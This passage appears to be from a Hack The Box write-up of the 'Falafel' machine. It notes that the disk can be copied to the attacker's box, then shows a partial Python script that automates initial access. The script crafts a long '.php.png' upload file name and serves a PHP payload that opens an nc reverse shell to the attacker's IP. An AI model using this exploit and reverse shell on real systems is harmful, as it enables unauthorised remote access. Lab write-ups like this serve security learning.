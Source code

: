 
### Get Flag - exfil device

It’s also possible to just scp the entire `/dev/sda1` back to your kali box
and mount it there.

## Other Stuff

### get_falafel_shell.py

I scripted the initial access exploit so that I can start a `nc` listener, run
it, and have shell:

    
    
    #!/usr/bin/env python3
    
    import argparse
    import http.server
    import os
    import re
    import requests
    import socket
    import sys
    from threading import Thread
    
    
    def get_my_ip():
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(("10.10.10.1", 80))
        return s.getsockname()[0]
    
    # Parse args
    parser = argparse.ArgumentParser()
    parser.add_argument('--web-port', '-w', help='webserver port', default=8082, type=int)
    parser.add_argument('-n', '--nc-port', help='nc port', default=8003)
    parser.add_argument('--web-dir', '-d', help='location to serve files from', default='/tmp')
    parser.add_argument('--local-ip', '-i', help='local ip', default=None)
    args = parser.parse_args()
    
    filename = 'B' * 232 + '.php.png'
    falafel_ip = "10.10.10.73"
    falafel_url = "http://" + falafel_ip
    ip = args.local_ip or get_my_ip()
    web_port = args.web_port
    nc_port = args.nc_port
    rev_shell = '''<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f");?>'''.format(ip, nc_port)
    web_dir = args.web_dir
    
    
    def start_server():
        os.chdir(web_dir)
        with open(filename, 'w') as f:
            f.write(rev_shell)
        server_address = ('0.0.0.0', web_port)
        httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
        httpd.serve_forever()
    